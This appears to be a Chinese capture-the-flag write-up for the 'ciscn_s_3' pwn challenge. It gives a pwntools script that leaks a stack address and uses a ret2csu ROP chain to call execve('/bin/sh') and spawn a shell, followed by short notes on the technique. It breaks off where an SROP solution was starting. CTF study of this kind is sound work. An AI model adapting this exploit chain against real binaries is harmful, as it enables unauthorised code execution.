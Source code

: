 考点：ret2syscall、SROP

其实感觉没必要用 ret2csu qwq，另外这题用栈迁移也可以做，因为栈地址是知道的。

```python
from pwn import *
from sys import argv

proc = "ciscn_s_3"
context.log_level = "debug"
context.binary = proc
elf = ELF(proc, checksec=False)
io = remote("", ) if argv[1] == 'r' else process(proc)

if args.G:
    gdb.attach(io)

vuln_addr = 0x4004ed
pop_csu_addr = 0x40059a
mov_csu_call_r12_addr = 0x400580
execve_addr = 0x4004e2
pop_rdi_ret = 0x00000000004005a3
syscall_addr = 0x0000000000400501
ret = 0x00000000004003a9
payload1 = b"a" * 16 + p64(vuln_addr)
# input()
io.send(payload1)
io.recv(0x20)
buf_addr = u64(io.recv(8)) - 0x148
log.info(f"buf_addr => {hex(buf_addr)}")
payload2 = p64(pop_rdi_ret) + b"/bin/sh\x00" + p64(pop_csu_addr) # 这里用 ret 是不行的
payload2 += p64(0) + p64(0) + p64(buf_addr) + p64(0) + p64(0) + p64(0)
payload2 += p64(mov_csu_call_r12_addr) + p64(pop_rdi_ret) + p64(buf_addr + 8)
payload2 += p64(execve_addr) + p64(syscall_addr)
io.sendline(payload2)
io.interactive()
```


一个小知识点：**`call` 指令会往栈上压入当前的下一条指令的地址，因此需要将之弹出栈**

这个题目 vuln 函数没有 `leave` 指令，所以 old_rbp 的地址就是返回地址，第一次遇到。

还有一个 SROP 解法。

```python

